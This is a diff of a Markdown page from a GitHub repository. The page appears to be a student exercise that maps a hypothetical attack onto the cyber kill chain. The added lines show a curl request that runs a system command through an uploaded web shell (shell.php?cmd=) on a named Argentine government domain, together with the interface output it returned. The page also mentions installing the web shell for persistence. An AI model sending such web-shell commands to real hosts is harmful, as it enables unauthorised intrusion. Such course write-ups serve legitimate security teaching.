

Before and after one commit to dvazquez1981/ceiot_base, a Markdown page: CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
+++ b/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
@@ -699,6 +699,22 @@ resultado:
    Resultado exitoso: www-data
 
 
+   Verificación de conectividad de red:
+      ```text
+       curl -k "https://siper.vialidad.gob.ar/tmp/uploads/shell.php?cmd=ip a show eth0"
+      ```
+
+    repuesta:
+      ```text
+        2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
+        link/ether 52:54:00:12:34:56 brd ff:ff:ff:ff:ff:ff
+        inet 10.8.34.189/24 brd 10.8.34.255 scope global eth0
+           valid_lft forever preferred_lft forever
+      ```
+
+
+
+
 
   Instalación de web shell para acceso persistente:
  ```text
@@ -716,6 +732,7 @@ resultado:
 
 
 
+
 ## Command & Control
 - T1071 – Application Layer Protocol
 
````
